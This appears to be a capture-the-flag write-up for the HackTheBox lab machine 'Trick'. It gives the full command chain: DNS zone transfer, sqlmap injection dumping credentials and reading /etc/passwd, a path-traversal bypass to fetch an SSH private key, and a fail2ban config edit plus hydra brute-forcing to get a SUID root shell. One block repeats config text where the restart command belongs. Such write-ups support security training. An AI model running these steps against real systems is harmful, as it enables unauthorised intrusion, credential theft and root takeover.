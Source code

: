 ## Nmap 
```bash
22 - OpenSSH 7.9p1 Debian 10+deb10u2
25 - Postfix
53 - BIND "9.11.5-P4-5.1+deb10u7-Debian"
80 - nginx 1.14.2 - unconfigured boostrap
```

## DNS Enum
```bash
nslookup
> SERVER 10.10.11.166
Default server: 10.10.11.166
Address: 10.10.11.166#53
> 10.10.11.166
166.11.10.10.in-addr.arpa       name = trick.htb.
>
```
```bash
dig axfr @10.10.11.166 trick.htb

; <<>> DiG 9.18.1-1-Debian <<>> axfr @10.10.11.166 trick.htb
; (1 server found)
;; global options: +cmd
trick.htb.              604800  IN      SOA     trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
trick.htb.              604800  IN      NS      trick.htb.
trick.htb.              604800  IN      A       127.0.0.1
trick.htb.              604800  IN      AAAA    ::1
preprod-payroll.trick.htb. 604800 IN    CNAME   trick.htb.
trick.htb.              604800  IN      SOA     trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
;; Query time: 32 msec
;; SERVER: 10.10.11.166#53(10.10.11.166) (TCP)
 WHEN: Mon Jul 04 23:11:04 IST 2022
;; XFR size: 6 records (messages 1, bytes 231)
```

## SQLi
[http://preprod-payroll.trick.htb](http://preprod-payroll.trick.htb)  
  
The preprod portal has a login page, which is vulnerable to SQli  
  
![sqli](./sqli.png)

We now have access to the payroll portal, it might be worth testing the site for more SQLi vulns  
After trying sqlmap on various forms, the 'save deduction' form seems to be vulnerable  
  
![deductions](./deductions.png)

```bash
sqlmap -r save_deductions.req --batch --threads 10 -D payroll_db -T users --dump
```
```bash
Database: payroll_db
Table: users
[1 entry]
+----+-----------+----------------+------+---------+---------+-----------------------+------------+
| id | doctor_id | name           | type | address | contact | password              | username   |
---+-----------+----------------+------+---------+---------+-----------------------+------------+
| 1  | 0         | Administrateur | 1    | <blank> | <blank> | SuperGucciRainbowCake | Enemigosss |
+----+-----------+----------------+------+---------+---------+-----------------------+------------+
```bash

The SQli can also be leveraged to dump files that www-data has access to:  
```bash
sqlmap -r save_deductions.req --batch --threads 10 --file-read /etc/passwd
```
```bash
grep sh$ /home/blnkn/.local/share/sqlmap/output/preprod-payroll.trick.htb/files/_etc_passwd
root:x:0:0:root:/root:/bin/bash
michael:x:1001:1001::/home/michael:/bin/bash
```

looking at the nginx virtual host config to know what the web folder names are  
```bash
sqlmap -r save_deductions.req --batch --threads 10 --file-read /etc/nginx/sites-available/default  
```
```bash
grep 'server_name\|root' /home/blnkn/.local/share/sqlmap/output/preprod-payroll.trick.htb/files/_etc_nginx_sites-available_default                       
        server_name trick.htb;
        root /var/www/html;
        server_name _;
        server_name preprod-marketing.trick.htb;
        root /var/www/market;
        server_name preprod-payroll.trick.htb;
        root /var/www/payroll;
```
this uncovers a new vhost - preprod-marketing  
[http://preprod-marketing.trick.htb/index.php](http://preprod-marketing.trick.htb/index.php)  
because we now have the web folder paths we can now dump the source code  
```bash
sqlmap -r save_deductions.req --batch --threads 10 --file-read /var/www/market/index.php  
```
```php
<?php
$file = $_GET['page'];

if(!isset($file) || ($file=="index.php")) {
   include("/var/www/market/home.html");
}
else{
        include("/var/www/market/".str_replace("../","",$file));
}
?>
```
This points us to an LFI as the above can be evaded like this ..././..././..././  

## LFI
So we can now just dump michael's key, and get user access  
```bash
curl 'http://preprod-marketing.trick.htb/index.php?page=..././..././..././..././..././home/michael/.ssh/id_rsa' -o michael.pem
```

## Fail2Ban privesc
It is imediately apparent that the privesc will be something with fail2ban  
the makers of the box are hinting us to it in a few different ways  
there is a fail2ban config file in michael's home folder 
```bash
-bash-5.0$ ls -la
total 100
drwxr-xr-x 15 michael michael  4096 Sep 17 16:33 .
drwxr-xr-x  3 root    root     4096 May 25 13:28 ..
lrwxrwxrwx  1 root    root        9 Apr 22 09:47 .bash_history -> /dev/null
-rw-r--r--  1 michael michael   220 Apr 18  2019 .bash_logout
-rw-r--r--  1 michael michael  3526 Apr 18  2019 .bashrc
drwx------  9 michael michael  4096 May 11 21:09 .cache
drwx------ 10 michael michael  4096 May 11 21:08 .config
drwxr-xr-x  2 michael michael  4096 May 11 21:07 Desktop
drwxr-xr-x  2 michael michael  4096 May 11 21:07 Documents
drwxr-xr-x  2 michael michael  4096 May 11 21:07 Downloads
drwx------  3 michael michael  4096 May 11 21:08 .gnupg
-rw-------  1 michael michael  1256 May 25 13:09 .ICEauthority
-rw-r--r--  1 michael michael  1536 Sep 17 14:22 iptables-multiport.conf
drwx------  3 michael michael  4096 May 11 21:07 .local
drwxr-xr-x  2 michael michael  4096 May 11 21:07 Music
drwxr-xr-x  2 michael michael  4096 May 11 21:07 Pictures
-rw-r--r--  1 michael michael   807 Apr 18  2019 .profile
drwxr-xr-x  2 michael michael  4096 May 11 21:07 Public
drwx------  2 michael michael  4096 May 24 17:25 .ssh
drwxr-xr-x  2 michael michael  4096 May 11 21:07 Templates
-rw-r-----  1 root    michael    33 Sep 17 01:51 user.txt
drwxr-xr-x  2 michael michael  4096 May 11 21:07 Videos
-rw-------  1 michael michael 12716 Sep 17 16:33 .viminfo
```
and he has access to restart fail2ban  
```bash
-bash-5.0$ sudo -l
Matching Defaults entries for michael on trick:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User michael may run the following commands on trick:
    (root) NOPASSWD: /etc/init.d/fail2ban restart
```
and also has write access in /etc/fail2ban/actions.d
```bash
-bash-5.0$ cd /etc/fail2ban/
-bash-5.0$ ls -la
total 76
drwxr-xr-x   6 root root      4096 Sep 17 16:36 .
drwxr-xr-x 126 root root     12288 Sep 17 01:51 ..
drwxrwx---   2 root security  4096 Sep 17 16:36 action.d
-rw-r--r--   1 root root      2334 Sep 17 16:36 fail2ban.conf
drwxr-xr-x   2 root root      4096 Sep 17 16:36 fail2ban.d
drwxr-xr-x   3 root root      4096 Sep 17 16:36 filter.d
-rw-r--r--   1 root root     22908 Sep 17 16:36 jail.conf
drwxr-xr-x   2 root root      4096 Sep 17 16:36 jail.d
-rw-r--r--   1 root root       645 Sep 17 16:36 paths-arch.conf
-rw-r--r--   1 root root      2827 Sep 17 16:36 paths-common.conf
-rw-r--r--   1 root root       573 Sep 17 16:36 paths-debian.conf
-rw-r--r--   1 root root       738 Sep 17 16:36 paths-opensuse.conf
```
a quick google search for "fail2ban privesc" an we know we can execute arbitrary command with this  
let's try to make a bash suid  
```bash
cp /etc/fail2ban/action.d/iptables-multiport.conf iptables-multiport.conf
```
adding the chmod suid into the actionban command  
```bash
actionban = <iptables> -I f2b-<name> 1 -s <ip> -j <blocktype>
            chmod +s /usr/bin/bash
```
and placing the file back in action.d  
```bash
rm -rf /etc/fail2ban/action.d/iptables-multiport.conf
cp iptables-multiport.conf /etc/fail2ban/action.d/iptables-multiport.conf
```
then restarting the daemon  
```bash
actionban = <iptables> -I f2b-<name> 1 -s <ip> -j <blocktype>
            chmod +s /usr/bin/bash
```
Now of course we need to trigger the ban, lets do a bruteforce attach with hydra  
```bash
hydra ssh://trick.htb -l root -P /usr/share/wordlists/rockyou.txt
```
and we're in  
```bash
ls -la /usr/bin/bash
-rwsr-sr-x 1 root root 1168776 Apr 18  2019 /usr/bin/bash
bash -p
bash-5.0# wc -c /root/root.txt
33 /root/root.txt
```
